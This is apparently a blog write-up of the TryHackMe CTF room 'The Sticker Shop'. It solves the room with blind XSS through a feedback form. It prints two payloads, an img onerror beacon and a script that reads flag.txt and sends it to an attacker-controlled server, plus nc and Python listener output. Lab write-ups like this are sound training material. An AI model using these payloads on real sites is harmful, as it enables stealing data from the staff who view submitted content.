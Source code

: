 ```yaml
---
title: 'TryHackMe: The Sticker Shop'
author:  Smyle :)
categories: [TryHackMe]
description: "Can you exploit the sticker shop in order to capture the flag?"
tags: [CTF, Easy, Blind Xss ]
render_with_liquid: false
media_subpath: /images/The_Sticker_Shop/
image:
  path: intro.png
---
```


So, in this room, we will look into Blind XSS. `Blind Cross-Site Scripting (Blind XSS)` is a type of XSS (Cross-Site Scripting) attack where the malicious script does not execute immediately on the vulnerable page but is stored and executed later, usually in an admin panel or another user’s browser.
![Tryhackme Room Link](room.png){: width="600" height="150" .shadow }
_<https://tryhackme.com/room/thestickershop>_

### Task:1 The sticker shop is finally online!
Your local sticker shop has finally developed its own webpage. They do not have too much experience regarding web development, so they decided to develop and host everything on the same computer that they use for browsing the internet and looking at customer feedback. Smart move!

>Can you read the flag at `http://MACHINE_IP:8080/flag.txt?` 

This gives you a direct link to the flag at `http://MACHINE_IP:8080/flag.txt`, but it  actually give you `401 Unauthorized`
```console
$ curl http://10.10.17.35:8080/flag.txt  
<h1>401 Unauthorized</h1> 
```
We have a `feedback panel`, so we simply submit our `feedback`, but the result doesn’t show. Maybe this is a case of **Blind XSS**
The feedback panel show below result 
```console
Thanks for your feedback! It will be evaluated shortly by our staff
```

let's test the malicious `JavaScript` to see if it's connecting back or not.
```console
<img src=x
onerror="fetch('http://10.8.128.221:4444')"/>
```
>*change your local ip*
{: .prompt-info}

Result:
```console
$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.8.128.221] from (UNKNOWN) [10.10.17.35] 49752
GET / HTTP/1.1
Host: 10.8.128.221:4444
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/119.0.6045.105 Safari/537.36
Accept: */*
Origin: http://127.0.0.1:8080
Referer: http://127.0.0.1:8080/
Accept-Encoding: gzip, deflate
```

The hint says `Can you conduct any client-side exploitation in order to read the flag?`  What does this mean?
we’ll simply set up a Python server on port `8000`."
```console
python3 -m http.server 8000
```
After that we will use below `paylaod`
```console
'"><script>
  fetch('http://127.0.0.1:8080/flag.txt')
    .then(response => response.text())
    .then(data => {
      fetch('http://10.8.128.221:8000/?flag=' + encodeURIComponent(data));
    });
</script>
```
* This script tries to read the contents of a file called `flag.txt` located on the local machine at `http://127.0.0.1:8080/flag.txt`. 
* It uses **JavaScript's** fetch function to request this file. Once the file's contents are retrieved, the script sends this data to a different server controlled by the attacker at `http://10.8.128.221:8000/` by making another request and including the flag data as part of the URL parameters. 
* Essentially, this script steals the secret flag from the local machine and sends it to the attacker’s server so they can access it remotely. This technique is often used in attacks like Blind XSS, where the attacker cannot see the result directly but can get the sensitive information sent to them silently.

## Blind Flag
```console
$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.17.35 - - [31/May/2025 11:33:26] "GET /?flag=THM%7B83789a6907f[REDACTED]cfcabe8b62305ee6%7D HTTP/1.1" 200 -
```
![SCKD](sckd.gif){: width="800" height="150" .shadow }




